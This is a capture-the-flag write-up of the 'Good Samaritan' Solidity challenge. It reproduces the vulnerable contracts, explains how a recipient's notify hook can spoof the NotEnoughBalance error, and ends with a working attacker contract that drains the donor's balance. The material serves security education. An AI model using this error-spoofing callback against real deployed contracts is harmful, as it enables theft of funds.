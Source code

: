 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

We are asked to deplete the coins of a Good Samaritan contract. What makes it a good samaritan? Well, it has tons of coins and is willing to donate them, only 10 at a time though. To deplete all 1 million coins of the contract, we would have to take more than 10 at a time.

Thankfully, the author of this level literally gaves us the clue in a comment, under `requestDonation` function at the comment that says: `send the coins left`. Looking at this function, it is a try-catch clause that handles an exception thrown during `wallet.donate10(msg.sender)`. Specifically, if the exception is due to error `NotEnoughBalance();` then it will send all the remaining coins.

How could `donate10` throw an exception? Apparently, it does throw `NotEnoughBalance();` only when there is not enough balance :). However, that is not where the function call ends, it also goes to `coin.transfer`.

Under `coin.transfer` we finally see something that touches our end: if the transfer happens and it is to a contract account, then `notify(uint256 amount)` function is called there to basically let that contract know about this transfer.

Such things are called **hooks**, allowing contracts to run code before / after / during an event, provided that they support the hook function. You can find more about them in [OpenZeppelin docs](https://docs.openzeppelin.com/contracts/3.x/extending-contracts#rules_of_hooks) too.

Looking back, we are supposed to throw `NotEnoughBalance();` during the transfer, and we may very well do that within our `notify` handler. There is a catch though: if you simply do that it will also revert the `transferRemainder` call too. So we can just check if the `amount` is 10, and revert in that case only. Our resulting attacker contract is as follows:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

// interface to call target function
interface IGoodSamaritan {
  function requestDonation() external returns (bool enoughBalance);
}

contract Attack {
  // error signature will be taken from here
  error NotEnoughBalance();

  // entry point for our attack, simply requests a donation
  function pwn(address _addr) external {
     IGoodSamaritan(_addr).requestDonation();
  }

  // notify is called when this contract receives coins
  function notify(uint256 amount) external pure {
    // only revert on 10 coins
    if (amount == 10) {
        revert NotEnoughBalance();
    }
  }
}
```

